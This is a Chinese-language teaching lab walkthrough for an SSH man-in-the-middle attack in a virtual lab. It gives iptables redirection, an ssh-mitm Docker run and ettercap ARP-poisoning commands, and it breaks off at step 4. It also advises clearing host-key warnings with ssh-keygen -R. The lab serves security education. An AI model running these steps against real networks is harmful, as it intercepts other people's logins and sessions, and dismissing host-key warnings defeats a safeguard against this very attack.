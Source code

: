 ## 信安综合实践——SSH实验中间人攻击

实验设备：

**客户端**：ubuntu2（可能需要自己创一个虚拟机，自带有ssh客户端程序）

中间人：Kali-Linux-2020

服务器：Metasploitable2-Linux

<img src="https://i0.hdslb.com/bfs/album/24f850f223ee577dee631ae7a76616b089fb1f04.png" alt="image-20220527145519072" style="zoom:67%;" /> 



实验操作：

1.打开三台机器，确定三台机器各自的IP地址

（注意，请让三台机器位于同一网段内，这里采取的操作是全部设置为**桥接模式**）

客户端：hostIP1

服务器：hostIP2



2.在**kali虚拟机**上操作：

（1）在**/home/kali/**下开启命令行输入代码；

```
sudo su
echo 1 > /proc/sys/net/ipv4/ip_forward
/sbin/iptables -P FORWARD ACCEPT
/sbin/iptables -A INPUT -p tcp --dport 2222 -j ACCEPT
/sbin/iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 2222
```

（2）开启docker并运行

```
systemctl start docker
docker run --network=host -it --rm -v ${PWD}/ssh_mitm_logs:/home/kssh-mitm/log positronsecurity/ssh-mitm
```

![image-20220527150145436](https://i0.hdslb.com/bfs/album/0343dc0ff61489393dfca1a95a8a77a22175b2bb.png) 

（3）新开启一个命令行

```
sudo su
ettercap -i eth0 -T -M arp /hostIP1// /hostIP2//
ettercap -i eth0 -T -M arp /192.168.3.225// /192.168.3.169//
```



3.在ubuntu2客户端正常进行SSH连接登录操作

```
ssh msfadmin@hostIP2
```

如果之前连接过服务器，可能会报错Host key verification failed，这说明中间人执行成功了

你可以通过命令`ssh-keygen -R hostIP2`来使命令正常执行下去。



4.之后，在kali虚拟机上，/home/kali/
